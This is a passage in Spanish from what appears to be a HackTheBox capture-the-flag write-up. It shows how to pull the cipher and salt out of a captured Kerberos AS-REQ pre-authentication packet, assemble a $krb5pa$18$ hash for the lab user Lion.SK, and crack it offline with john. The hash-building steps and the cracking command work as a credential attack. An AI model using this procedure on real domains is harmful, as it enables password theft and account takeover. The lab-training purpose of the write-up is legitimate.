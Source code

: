 En la parte de `AS-REQ` si nos vamos a la parte de `padata` en los campos de `etype` y `cipher` podremos montarnos nuestro propio `hash` para poder crackearlo con `john` pero tendremos que montar el `hash` de forma correcta quedando algo asi:

```
cipher: 23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0
```

Cogemos el `salt` super importante:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-18 131012.png" alt=""><figcaption></figcaption></figure>

```
salt: CERTIFICATE.HTBLion.SK
```

El formato de un `hash` `kerberos5` seria la siguiente:

```
$krb5pa$18$<USER>$<DOMAIN>$<SALT>$<CIPHER_HASH>
```

Asi quedaria formado:

> hash.krb5

```
$krb5pa$18$Lion.SK$CERTIFICATE.HTB$CERTIFICATE.HTBLion.SK$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0
```

Ahora vamos a probar a `crackearlo`.

```shell
john --wordlist=<WORDLIST> hash.krb5
```
